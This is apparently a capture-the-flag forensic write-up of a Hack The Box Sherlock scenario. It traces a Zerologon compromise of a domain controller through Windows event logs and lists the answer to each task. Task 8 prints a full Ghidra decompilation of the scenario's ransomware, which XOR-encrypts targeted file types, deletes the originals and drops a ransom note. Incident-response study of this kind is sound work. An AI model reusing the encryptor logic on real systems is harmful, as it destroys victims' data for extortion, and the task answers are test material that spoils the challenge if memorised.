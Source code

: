 # Sherlock Scenario
You'll notice a lot of our critical server infrastructure was recently transferred from the domain of our MSSP - Forela.local over to Northpole.local. We actually managed to purchase some second hand servers from the MSSP who have confirmed they are as secure as Christmas is! It seems not as we believe christmas is doomed and the attackers seemed to have the stealth of a clattering sleigh bell, or they didn’t want to hide at all!!!!!! We have found nasty notes from the Grinch on all of our TinkerTech workstations and servers! Christmas seems doomed. Please help us recover from whoever committed this naughty attack!

# Solution
## Task 1 
Question: Which CVE did the Threat Actor (TA) initially exploit to gain access to DC01?
<br>Answer: `CVE-2020-1472`

Using Hayabusa, the evtx directory can be scanned to determine the vulnerability using rules.

```
.\hayabusa-2.11.0-win-x64.exe csv-timeline -d 'C:\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt' -o results.csv

╔╗ ╔╦═══╦╗  ╔╦═══╦══╗╔╗ ╔╦═══╦═══╗
║║ ║║╔═╗║╚╗╔╝║╔═╗║╔╗║║║ ║║╔═╗║╔═╗║
║╚═╝║║ ║╠╗╚╝╔╣║ ║║╚╝╚╣║ ║║╚══╣║ ║║
║╔═╗║╚═╝║╚╗╔╝║╚═╝║╔═╗║║ ║╠══╗║╚═╝║
║║ ║║╔═╗║ ║║ ║╔═╗║╚═╝║╚═╝║╚═╝║╔═╗║
╚╝ ╚╩╝ ╚╝ ╚╝ ╚╝ ╚╩═══╩═══╩═══╩╝ ╚╝
   by Yamato Security

Start time: 2023/12/29 14:41

Total event log files: 146
Total file size: 261.4 MB

Scan wizard:

✔ Which set of detection rules would you like to load? · 5. All event and alert rules (4270 rules) ( status: * | level: informational+ )
✔ Include deprecated rules? (193 rules) · no
✔ Include unsupported rules? (45 rules) · no
✔ Include noisy rules? (12 rules) · no
✔ Include sysmon rules? (2083 rules) · yes

```

![win1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/98d66849-9602-4023-ba86-26881401ebc6)

Hayabusa mentioned that most critical events happened on 13/12/2022. So I used Timeline Explorer to analyze the csv file from Hayabusa and found a suspicious logon from an unknown user (192.168.68.200) using an exploit called Zerologon.

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/fcc482fe-5133-4a57-9603-bda9ba046a52)

Scrolling further down, the unknown user seems to perform Mimikatz DC Sync multiple times. So I googled it to confirm if it's related to Zerologon and it does!

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c3d0d8de-3535-469d-888f-0d64a8f4aa76)

![win2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0ebb55bd-a1e0-4838-aff4-14f41c07d7f6)

## Task 2 
Question: What time did the TA initially exploit the CVE? (UTC)
<br>Answer: `2023-12-13 09:24:23`

Reading this [blog](https://0xbandar.medium.com/detecting-the-cve-2020-1472-zerologon-attacks-6f6ec0730a9e) about the CVE, it mentioned an easy way to detect the exploit using the Security.evtx.

> Successful exploitation resulting in a rest of the computer account password and it will be shown in security logs with event id 4742 “A computer account was changed”, password last set change, performed by Anonymous Logon.

![win2 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/8307d503-2500-485b-9f84-9f20da3d1fed)

## Task 3
Question: What is the name of the executable related to the unusual service installed on the system around the time of the CVE exploitation?
<br>Answer: `hAvbdksT.exe`

Since we know the exact timeline for IoC, the executable related to the "vulnerable_to_zerologon" service can be easily found in the System.evtx by filtering the time and eventID.

![win3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e54e82e9-45ae-4e87-b078-7484cfeb94d0)

## Task 4 
Question: What date & time was the unusual service start?
<br>Answer: `2023-12-13 09:24:24`

Similar to Task 3, just look for "vulnerable_to_zerologon" service starting.

![win4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/6dc67f43-deb9-487f-bdd1-4f8b53488d6b)

## Task 5 
Question: What was the TA's IP address within our internal network?
<br>Answer: `192.168.68.200`

Similar to Task 1, the TA's IP address can be identified from the malicious activity.

## Task 6 
Question: Please list all user accounts the TA utilised during their access. (Ascending order)
<br>Answer: `Administrator, Bytesparkle`

Using Hayabusa, we can find out the logon attempts and since we already know the TA's IP address from Task 5, we just have to find the user accounts. So I just filter out the specific IP address to find the second user.

```
.\hayabusa-2.11.0-win-x64.exe logon-summary -d 'C:\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt\Logs | Select-String 192.168.68.200'
```

![win6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/676b3958-cdf9-4c7e-9a14-0a66b0fd443a)

To confirm this, we can refer back to Timeline Explorer to analyze the IP address connections.

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ca59b54b-645e-4024-b962-cef531f01963)

## Task 7 
Question: What was the name of the scheduled task created by the TA?
<br>Answer: `svc_vnc`

Just look for the Microsoft-Windows-TaskScheduler%254Operational.evtx file and filter by eventID 106 (Task registered). Two schedule tasks was created and one of them was suspicious.

![win7](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/f517c46e-1397-4c9d-9741-706dc1b7a367)

## Task 8 
Question: Santa's memory is a little bad recently! He tends to write a lot of stuff down, but all our critical files have been encrypted! Which creature is Santa's new sleigh design planning to use?
<br>Answer: `Unicorn`

Initially, we were given several encrypted files and the encryption program (splunk_svc.dll). So it is obvious we have to perform reverse engineering on splunk_svc.dll to decrypt the files. Using ghidra, I managed to find the malware function that encrypted the files (FUN_180001330).

<details>
<summary>
FUN_180001330
</summary>

```
/* WARNING: Function: _alloca_probe replaced with injection: alloca_probe */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void FUN_180001330(char *param_1)

{
  undefined4 *_Dst;
  char cVar1;
  undefined8 uVar2;
  undefined4 uVar3;
  undefined4 uVar4;
  undefined4 uVar5;
  undefined4 uVar6;
  undefined4 uVar7;
  undefined4 uVar8;
  undefined4 uVar9;
  undefined4 uVar10;
  undefined4 uVar11;
  undefined4 uVar12;
  undefined8 *puVar13;
  undefined4 *puVar14;
  BOOL BVar15;
  int iVar16;
  undefined4 uVar17;
  uint uVar18;
  undefined4 *_Memory;
  ulonglong uVar19;
  char *pcVar20;
  FILE *_File;
  FILE *_File_00;
  undefined4 *puVar21;
  undefined2 uVar22;
  undefined *puVar23;
  longlong lVar24;
  undefined8 *puVar25;
  undefined2 *puVar26;
  FILE *pFVar27;
  undefined4 *puVar28;
  longlong lVar29;
  undefined4 *puVar30;
  wchar_t *_Src;
  longlong lVar31;
  undefined auStackY_1130 [32];
  char *local_10e0 [69];
  char *local_eb8;
  undefined4 local_ea8;
  undefined2 local_ea4;
  undefined local_e80 [8];
  char local_e78 [799];
  undefined uStack_b59;
  char local_b58 [799];
  undefined8 uStack_839;
  undefined2 uStack_729;
  undefined4 local_338 [192];
  ulonglong local_38;
  
  local_38 = DAT_180005008 ^ (ulonglong)auStackY_1130;
  local_10e0[0] = ".3ds";
  local_10e0[1] = &DAT_18000353c;
  local_10e0[2] = &DAT_180003544;
  local_10e0[3] = &DAT_18000354c;
  local_10e0[4] = &DAT_180003554;
  local_10e0[5] = &DAT_18000355c;
  local_10e0[7] = &DAT_180003560;
  local_10e0[8] = &DAT_180003564;
  local_10e0[9] = &DAT_18000356c;
  local_10e0[10] = &DAT_180003574;
  local_10e0[11] = &DAT_180003578;
  local_10e0[12] = &DAT_180003580;
  local_10e0[13] = &DAT_180003588;
  local_10e0[14] = &DAT_18000358c;
  local_10e0[15] = &DAT_180003594;
  local_10e0[16] = &DAT_18000359c;
  local_10e0[17] = &DAT_1800035a4;
  local_10e0[18] = &DAT_1800035ac;
  local_10e0[19] = &DAT_1800035b4;
  local_10e0[20] = &DAT_1800035bc;
  local_10e0[21] = &DAT_1800035c0;
  local_10e0[22] = &DAT_1800035c4;
  local_10e0[23] = &DAT_1800035cc;
  local_10e0[24] = &DAT_1800035d4;
  local_10e0[25] = &DAT_1800035dc;
  local_10e0[26] = &DAT_1800035e4;
  local_10e0[27] = &DAT_1800035ec;
  local_10e0[28] = &DAT_1800035f4;
  local_10e0[29] = &DAT_1800035fc;
  local_10e0[30] = &DAT_180003604;
  local_10e0[31] = &DAT_18000360c;
  local_10e0[32] = &DAT_180003614;
  local_10e0[33] = &DAT_18000361c;
  local_10e0[34] = &DAT_180003624;
  local_10e0[35] = &DAT_18000362c;
  local_10e0[36] = &DAT_180003634;
  local_10e0[37] = &DAT_180003638;
  local_10e0[38] = &DAT_180003640;
  local_10e0[39] = &DAT_180003648;
  local_10e0[40] = &DAT_180003650;
  local_10e0[41] = &DAT_180003658;
  local_10e0[42] = &DAT_180003660;
  local_10e0[43] = &DAT_180003668;
  local_10e0[44] = &DAT_180003670;
  local_10e0[45] = &DAT_180003678;
  local_10e0[46] = &DAT_180003680;
  local_10e0[47] = &DAT_180003688;
  local_10e0[48] = &DAT_180003690;
  local_10e0[49] = &DAT_180003698;
  local_10e0[50] = &DAT_1800036a0;
  local_10e0[51] = &DAT_1800036a8;
  local_10e0[52] = &DAT_1800036b0;
  local_10e0[53] = ".accdb";
  local_10e0[54] = ".aspx";
  local_10e0[55] = ".avhd";
  local_10e0[56] = ".back";
  local_10e0[57] = ".conf";
  local_10e0[58] = ".disk";
  local_10e0[59] = ".djvu";
  local_10e0[60] = ".docx";
  local_10e0[61] = ".kdbx";
  local_10e0[62] = ".mail";
  local_10e0[63] = ".pptx";
  local_10e0[64] = ".vbox";
  local_10e0[65] = ".vmdk";
  local_10e0[66] = ".vmsd";
  local_10e0[67] = ".vsdx";
  local_10e0[68] = ".work";
  local_eb8 = ".xlsx";
  _Memory = (undefined4 *)FUN_1800010f0(param_1);
  if (_Memory == (undefined4 *)0x0) {
LAB_180001ca6:
    __security_check_cookie(local_38 ^ (ulonglong)auStackY_1130);
    return;
  }
LAB_180001710:
  lVar31 = *(longlong *)(_Memory + 0x4a);
  if (*(int *)(lVar31 + 0x478) == 0) {
    if (*(HANDLE *)(lVar31 + 0x480) == (HANDLE)0xffffffffffffffff) goto LAB_180001c5e;
    BVar15 = FindNextFileW(*(HANDLE *)(lVar31 + 0x480),(LPWIN32_FIND_DATAW)(lVar31 + 0x228));
    if (BVar15 == 0) {
      FindClose(*(HANDLE *)(lVar31 + 0x480));
      *(undefined8 *)(lVar31 + 0x480) = 0xffffffffffffffff;
LAB_180001c5e:
      FUN_180001080(*(void **)(_Memory + 0x4a));
      *(undefined8 *)(_Memory + 0x4a) = 0;
      free(_Memory);
      goto LAB_180001ca6;
    }
  }
  else {
    *(undefined4 *)(lVar31 + 0x478) = 0;
  }
  if ((uint *)(lVar31 + 0x228) == (uint *)0x0) goto LAB_180001c5e;
  _Dst = _Memory + 7;
  _Src = (wchar_t *)(lVar31 + 0x254);
  iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
  if (iVar16 == 0) {
LAB_1800017c6:
    *(size_t *)(_Memory + 4) = (longlong)local_e80 - 1;
    uVar18 = *(uint *)(lVar31 + 0x228);
    if ((uVar18 & 0x40) == 0) {
      uVar22 = 0x128;
      uVar17 = 0x8000;
      if ((uVar18 & 0x10) != 0) {
        uVar17 = 0x4000;
      }
      _Memory[6] = uVar17;
      uVar17 = 0;
    }
    else {
      _Memory[6] = 0x2000;
      uVar22 = 0x128;
      uVar17 = 0;
    }
  }
  else {
    _Src = (wchar_t *)(lVar31 + 0x45c);
    if (*_Src != L'\0') {
      iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
    }
    if (iVar16 == 0) goto LAB_1800017c6;
    *(undefined *)_Dst = 0x3f;
    uVar22 = 0;
    *(undefined *)((longlong)_Memory + 0x1d) = 0;
    uVar17 = 0xffffffff;
    *(undefined8 *)(_Memory + 4) = 1;
    _Memory[6] = 0;
  }
  *_Memory = 0;
  _Memory[1] = uVar17;
  uVar19 = 0xffffffffffffffff;
  *(undefined2 *)(_Memory + 2) = uVar22;
  do {
    uVar19 = uVar19 + 1;
  } while (param_1[uVar19] != '\0');
  if (((uVar19 < 1000) && ((*(char *)_Dst != '.' || (*(char *)((longlong)_Memory + 0x1d) != '\0'))))
     && ((*(char *)_Dst != '.' ||
         ((*(char *)((longlong)_Memory + 0x1d) != '.' ||
          (*(char *)((longlong)_Memory + 0x1e) != '\0')))))) {
    lVar31 = 0;
    do {
      pcVar20 = strstr((char *)_Dst,local_10e0[lVar31]);
      if (pcVar20 != (char *)0x0) {
        local_ea8 = 0x616d782e;
        local_ea4 = 0x78;
        pcVar20 = param_1;
        do {
          cVar1 = *pcVar20;
          pcVar20[(longlong)(local_e78 + -(longlong)param_1)] = cVar1;
          pcVar20 = pcVar20 + 1;
        } while (cVar1 != '\0');
        puVar26 = (undefined2 *)(local_e80 + 7);
        do {
          pcVar20 = (char *)((longlong)puVar26 + 1);
          puVar26 = (undefined2 *)((longlong)puVar26 + 1);
        } while (*pcVar20 != '\0');
        *puVar26 = 0x5c;
        puVar23 = local_e80 + 7;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)_Dst + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        lVar24 = 0;
        do {
          pcVar20 = local_e78 + lVar24;
          local_b58[lVar24] = *pcVar20;
          lVar24 = lVar24 + 1;
        } while (*pcVar20 != '\0');
        puVar23 = &uStack_b59;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        puVar30 = &local_ea8;
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)puVar30 + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        FUN_180001020(&DAT_180003754,local_b58,puVar30,_Src);
        pFVar27 = (FILE *)&DAT_180003208;
        _File = fopen(local_e78,"rb");
        if (_File == (FILE *)0x0) {
LAB_180001a69:
          FUN_180001020("\nXOR operation failed!",pFVar27,puVar30,_Src);
        }
        else {
          pFVar27 = (FILE *)&DAT_18000320c;
          _File_00 = fopen(local_b58,"wb");
          if (_File_00 == (FILE *)0x0) goto LAB_180001a69;
          lVar24 = 0;
          while( true ) {
            lVar29 = 0;
            if (lVar24 < 0x10) {
              lVar29 = lVar24;
            }
            uVar18 = fgetc(_File);
            lVar24 = lVar29 + 1;
            if (uVar18 == 0xffffffff) break;
            pFVar27 = _File_00;
            fputc((int)"EncryptingC4Fun!"[lVar29] ^ uVar18,_File_00);
          }
          iVar16 = fclose(_File);
          if ((iVar16 != 0) || (iVar16 = fclose(_File_00), iVar16 != 0)) goto LAB_180001a69;
        }
        _DAT_180005628 = _DAT_180005628 + 1;
        _Src = (wchar_t *)0x0;
        SHGetSpecialFolderPathA((HWND)0x0,(LPSTR)((longlong)&uStack_839 + 1),0,0);
        lVar24 = 5;
        puVar30 = (undefined4 *)
                  "Dear Santa Claus,\n\nIt\'s time for a holiday twist you didn\'t see coming. Yours  truly, the Grinch, has taken over your Christmas operation. Not only have I got m y hands on your list of gift recipients, but I also hold the infamous Naughty List . The world is on the edge of discovering who\'s been less than angelic this year! \n\nTo keep Christmas from turning into a scandal, I demand a ransom of 5,000,000 XMAS tokens. Deposit them into my crypto wallet: GR1NCH-5ANTA-2023XMAS. Delay or n on-compliance will lead to the Naughty List becoming public knowledge, destroying the festive spirit across the globe.\n\nTick tock, Santa. The deadline is midnight  on Christmas Eve. Make the right choice. Together, we can still save Christmas.\n \nSinister holiday wishes,\nThe Grinch"
        ;
        puVar14 = local_338;
        do {
          puVar28 = puVar14;
          puVar21 = puVar30;
          uVar17 = puVar21[1];
          uVar3 = puVar21[2];
          uVar4 = puVar21[3];
          uVar5 = puVar21[4];
          uVar6 = puVar21[5];
          uVar7 = puVar21[6];
          uVar8 = puVar21[7];
          *puVar28 = *puVar21;
          puVar28[1] = uVar17;
          puVar28[2] = uVar3;
          puVar28[3] = uVar4;
          uVar17 = puVar21[8];
          uVar3 = puVar21[9];
          uVar4 = puVar21[10];
          uVar9 = puVar21[0xb];
          puVar28[4] = uVar5;
          puVar28[5] = uVar6;
          puVar28[6] = uVar7;
          puVar28[7] = uVar8;
          uVar5 = puVar21[0xc];
          uVar6 = puVar21[0xd];
          uVar7 = puVar21[0xe];
          uVar8 = puVar21[0xf];
          puVar28[8] = uVar17;
          puVar28[9] = uVar3;
          puVar28[10] = uVar4;
          puVar28[0xb] = uVar9;
          uVar17 = puVar21[0x10];
          uVar3 = puVar21[0x11];
          uVar4 = puVar21[0x12];
          uVar9 = puVar21[0x13];
          puVar28[0xc] = uVar5;
          puVar28[0xd] = uVar6;
          puVar28[0xe] = uVar7;
          puVar28[0xf] = uVar8;
          uVar5 = puVar21[0x14];
          uVar6 = puVar21[0x15];
          uVar7 = puVar21[0x16];
          uVar8 = puVar21[0x17];
          puVar28[0x10] = uVar17;
          puVar28[0x11] = uVar3;
          puVar28[0x12] = uVar4;
          puVar28[0x13] = uVar9;
          uVar17 = puVar21[0x18];
          uVar3 = puVar21[0x19];
          uVar4 = puVar21[0x1a];
          uVar9 = puVar21[0x1b];
          puVar28[0x14] = uVar5;
          puVar28[0x15] = uVar6;
          puVar28[0x16] = uVar7;
          puVar28[0x17] = uVar8;
          uVar5 = puVar21[0x1c];
          uVar6 = puVar21[0x1d];
          uVar7 = puVar21[0x1e];
          uVar8 = puVar21[0x1f];
          puVar28[0x18] = uVar17;
          puVar28[0x19] = uVar3;
          puVar28[0x1a] = uVar4;
          puVar28[0x1b] = uVar9;
          puVar28[0x1c] = uVar5;
          puVar28[0x1d] = uVar6;
          puVar28[0x1e] = uVar7;
          puVar28[0x1f] = uVar8;
          lVar24 = lVar24 + -1;
          puVar30 = puVar21 + 0x20;
          puVar14 = puVar28 + 0x20;
        } while (lVar24 != 0);
        uVar2 = *(undefined8 *)(puVar21 + 0x3c);
        uVar17 = puVar21[0x21];
        uVar3 = puVar21[0x22];
        uVar4 = puVar21[0x23];
        uVar5 = puVar21[0x24];
        uVar6 = puVar21[0x25];
        uVar7 = puVar21[0x26];
        uVar8 = puVar21[0x27];
        puVar28[0x20] = puVar21[0x20];
        puVar28[0x21] = uVar17;
        puVar28[0x22] = uVar3;
        puVar28[0x23] = uVar4;
        uVar17 = puVar21[0x28];
        uVar3 = puVar21[0x29];
        uVar4 = puVar21[0x2a];
        uVar9 = puVar21[0x2b];
        puVar28[0x24] = uVar5;
        puVar28[0x25] = uVar6;
        puVar28[0x26] = uVar7;
        puVar28[0x27] = uVar8;
        uVar5 = puVar21[0x2c];
        uVar6 = puVar21[0x2d];
        uVar7 = puVar21[0x2e];
        uVar8 = puVar21[0x2f];
        puVar28[0x28] = uVar17;
        puVar28[0x29] = uVar3;
        puVar28[0x2a] = uVar4;
        puVar28[0x2b] = uVar9;
        uVar9 = puVar21[0x30];
        uVar10 = puVar21[0x31];
        uVar11 = puVar21[0x32];
        uVar12 = puVar21[0x33];
        puVar28[0x2c] = uVar5;
        puVar28[0x2d] = uVar6;
        puVar28[0x2e] = uVar7;
        puVar28[0x2f] = uVar8;
        uVar17 = puVar21[0x34];
        uVar3 = puVar21[0x35];
        uVar4 = puVar21[0x36];
        uVar5 = puVar21[0x37];
        puVar28[0x30] = uVar9;
        puVar28[0x31] = uVar10;
        puVar28[0x32] = uVar11;
        puVar28[0x33] = uVar12;
        uVar6 = puVar21[0x38];
        uVar7 = puVar21[0x39];
        uVar8 = puVar21[0x3a];
        uVar9 = puVar21[0x3b];
        puVar28[0x34] = uVar17;
        puVar28[0x35] = uVar3;
        puVar28[0x36] = uVar4;
        puVar28[0x37] = uVar5;
        puVar28[0x38] = uVar6;
        puVar28[0x39] = uVar7;
        puVar28[0x3a] = uVar8;
        puVar28[0x3b] = uVar9;
        *(undefined8 *)(puVar28 + 0x3c) = uVar2;
        puVar28[0x3e] = puVar21[0x3e];
        puVar13 = &uStack_839;
        do {
          puVar25 = puVar13;
          puVar13 = (undefined8 *)((longlong)puVar25 + 1);
        } while (*(char *)((longlong)puVar25 + 1) != '\0');
        *(undefined8 *)((longlong)puVar25 + 1) = 0x2e454d444145525c;
        *(undefined4 *)((longlong)puVar25 + 9) = 0x545854;
        pFVar27 = fopen((char *)((longlong)&uStack_839 + 1),"w");
        fputs((char *)local_338,pFVar27);
        fclose(pFVar27);
        remove(local_e78);
      }
      lVar31 = lVar31 + 1;
    } while (lVar31 < 0x45);
    pcVar20 = param_1;
    do {
      cVar1 = *pcVar20;
      pcVar20[(longlong)&uStack_729 + (1 - (longlong)param_1)] = cVar1;
      pcVar20 = pcVar20 + 1;
    } while (cVar1 != '\0');
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    *puVar26 = 0x5c;
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    lVar31 = 0;
    do {
      cVar1 = *(char *)((longlong)_Dst + lVar31);
      *(char *)((longlong)puVar26 + lVar31) = cVar1;
      lVar31 = lVar31 + 1;
    } while (cVar1 != '\0');
    FUN_180001330((char *)((longlong)&uStack_729 + 1));
  }
  goto LAB_180001710;
}
```

</details>

Analyzing the function, the encryption method was discovered to be a simple XOR with the key "EncryptingC4Fun!". So we can use CyberChef to decrypt the files easily and discover Santa' plan.

![win8](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a665d12f-a6a4-46cd-8463-bf0f89f06fe7)

![win8 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/fbb5dac6-a162-421f-891b-63dcfd1c6267)

![win8 2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/4137037d-0797-4c1e-919b-7be3bded88b2)

## Task 9 
Question: Please confirm the process ID of the process that encrypted our files.
<br>Answer: `5828`

Using the output from EVTXCmd and Timeline Explorer, we can filter by the file extension of encrypted files (.xmax) and discover that they were stored in the Microsoft-Windows-UAC-FileVirtualization/Operational channel. Hence, we can analyze the Microsoft-Windows-UAC-FileVirtualization/Operational.evtx file to obtain the process ID.

![win9](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c1c564be-85e9-4850-9c1b-34527c3094d2)

![win9 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/7c5b26f8-53db-4cef-af70-f228c2ccd7c7)
